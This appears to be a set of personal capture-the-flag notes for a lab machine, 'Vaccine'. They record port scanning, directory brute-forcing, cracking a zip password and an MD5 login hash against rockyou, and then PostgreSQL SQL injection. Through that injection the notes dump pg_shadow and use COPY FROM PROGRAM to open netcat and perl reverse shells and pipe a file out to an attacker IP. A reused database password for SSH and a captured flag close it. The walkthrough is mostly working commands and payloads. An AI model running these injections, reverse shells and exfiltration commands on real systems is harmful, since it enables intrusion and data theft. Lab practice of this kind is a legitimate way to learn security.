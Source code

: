 `>> sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.46`  
	21/tcp open  ftp     vsftpd 3.0.3  
	22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)  
	| ssh-hostkey:   
	|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)  
	|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)  
	|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)  
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
	| http-cookie-flags:   
	|   /:   
	|     PHPSESSID:   
	|_      httponly flag not set  
	|_http-server-header: Apache/2.4.41 (Ubuntu)  
	|_http-title: MegaCorp Login  
  
`>> ssh: robert is not here, cannot ssh with his creds`  
`>> web: index is a login page`  
`>> python dirsearch/dirsearch.py -u http://10.10.10.46 -E`    
	[13:43:32] 403 -  276B  - /.htaccess-local                             
	[13:43:32] 403 -  276B  - /.htaccess-marco  
	[13:43:32] 403 -  276B  - /.htaccess-dev  
	[13:43:32] 403 -  276B  - /.htaccess.bak1    
	[13:43:32] 403 -  276B  - /.htaccess.old  
	[13:43:32] 403 -  276B  - /.htaccess.save  
	[13:43:32] 403 -  276B  - /.htaccessOLD2  
	[13:43:32] 403 -  276B  - /.htaccessOLD  
	[13:43:32] 403 -  276B  - /.htaccess.txt  
	[13:43:32] 403 -  276B  - /.htaccess.sample  
	[13:43:32] 403 -  276B  - /.htaccess.orig  
	[13:43:32] 403 -  276B  - /.htaccessBAK  
	[13:43:32] 403 -  276B  - /.htpasswd-old  
	[13:43:33] 403 -  276B  - /.httr-oauth  
	[13:43:38] 403 -  276B  - /.php                                        
	[13:44:32] 302 -  931B  - /dashboard.php  ->  index.php                        
	[13:44:51] 200 -    2KB - /index.php                          
	[13:44:52] 200 -    2KB - /index.php/login/  
	[13:44:57] 200 -    1KB - /license.txt                                                  
	[13:45:28] 403 -  276B  - /server-status                                               
	[13:45:28] 403 -  276B  - /server-status/  

`>> no passwords accepted, should bruteforce session id?`  

`>> ftp: may be the same as on previous machine`  
It is indeed  
`>> there is a backup file. With a password.`  
`>> fcrackzip -u -v -D -p '/usr/share/wordlists/rockyou.txt' backup.zip`  
	found file 'index.php', (size cp/uc   1201/  2594, flags 9, chk 5722)  
	found file 'style.css', (size cp/uc    986/  3274, flags 9, chk 989a)  


	PASSWORD FOUND!!!!: pw == 741852963  
`>> From index.php`
	if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")  

Time to dehash. No solt required.  
`>> hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt`  
	* Runtime...: 2 secs  

	2cb42f8734ea607eefed3b70af13bbd3:qwerty789  
	
	Need to use better passwords..  

`>> seems like nothing interestion in there... we are not the super admin yet. More like a content admin.`  

However, the serach field is interactive after some <$><\><"><?><'> we find out that we can do SQL injection in there!  
The original query is  
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^  

Let's make a new queries:  

1) Select * from cars where name ilike '%  
2) aaa' union all select null as int, version(), null as text, null as text, null as text union all select * from cars where name ilike 'aaa  
3) %';  

`>> aaa' union all select null as int, usename, passwd, null as text, null as text from pg_shadow union all select * from cars where name ilike 'aaa`  
postgres 	md52d58e0637ec1e94cdfba3d1c26b67d01  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'nc -e /bin/sh 10.10.14.5 4444 &'; select null as int, cmd_output, null as text, null as text, null as text from cmd_exec_541 union all select * from cars where name ilike 'aaa  

DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec_541(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'perl -MIO -e "$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.5:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"';  
SELECT * FROM cmd_exec;  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'cat /var/www/html/dashboard.php | nc 10.10.14.5 80'; select * from cars where name ilike 'aaa  


as we cannot get rid of 1 and 3, we need to try to make their results to be empty  
Impossibru to establish the reverse shell, but was able to send individual commands to my shell  

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");  

The same password is ok for ssh apparently.  

>> postgres@vaccine:~$ cat user.txt  
139d3e5c3db18073d250ce0dccc43997  




